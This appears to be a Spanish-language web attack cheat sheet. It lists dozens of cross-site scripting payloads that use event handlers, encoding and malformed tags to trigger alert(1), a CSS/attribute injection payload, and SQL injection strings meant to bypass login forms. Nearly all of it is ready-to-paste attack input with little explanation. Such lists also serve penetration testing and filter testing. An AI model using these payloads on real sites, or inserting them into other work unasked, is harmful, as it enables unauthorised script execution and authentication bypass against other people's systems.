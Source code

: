 

### Muchos mas

```
<script%20~~~>\u0061\u006C\u0065\u0072\u0074``</script%20~~~>
<\x3Cscript>javascript:alert(1)</script>
'`"><\x00script>javascript:alert(1)</script>
<img src=1 href=1 onerror="javascript:alert(1)"></img>
<audio src=1 href=1 onerror="javascript:alert(1)"></audio>
<video src=1 href=1 onerror="javascript:alert(1)"></video> 
<body src=1 href=1 onerror="javascript:alert(1)"></body>
<image src=1 href=1 onerror="javascript:alert(1)"></image>
<object src=1 href=1 onerror="javascript:alert(1)"></object>
<script src=1 href=1 onerror="javascript:alert(1)"></script> 
<svg onResize svg onResize="javascript:javascript:alert(1)"></svg onResize>
<title onPropertyChange title onPropertyChange="javascript:javascript:alert(1)"></title onPropertyChange> <iframe onLoad iframe onLoad="javascript:javascript:alert(1)"></iframe onLoad> 
<body onMouseEnter body onMouseEnter="javascript:javascript:alert(1)"></body onMouseEnter> 
<body onFocus body onFocus="javascript:javascript:alert(1)"></body onFocus>
<frameset onScroll frameset onScroll="javascript:javascript:alert(1)"></frameset onScroll> 
<script onReadyStateChange script onReadyStateChange="javascript:javascript:alert(1)"></script onReadyStateChange>
<html onMouseUp html onMouseUp="javascript:javascript:alert(1)"></html onMouseUp>
<body onPropertyChange body onPropertyChange="javascript:javascript:alert(1)">
</body onPropertyChange> <svg onLoad svg onLoad="javascript:javascript:alert(1)">
</svg onLoad> <body onPageHide body onPageHide="javascript:javascript:alert(1)"></body onPageHide> 
<body onMouseOver body onMouseOver="javascript:javascript:alert(1)"></body onMouseOver> 
<body onUnload body onUnload="javascript:javascript:alert(1)">
```

# Css injection

```
1"Style="position:fixed;top:350;left:400;font-size:99999px;"OnPointerEnter="new class extends confirm`_Y000!_`{}"

```


# sql injection 

## Payloads para sql inyection login bypass

```
'-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
```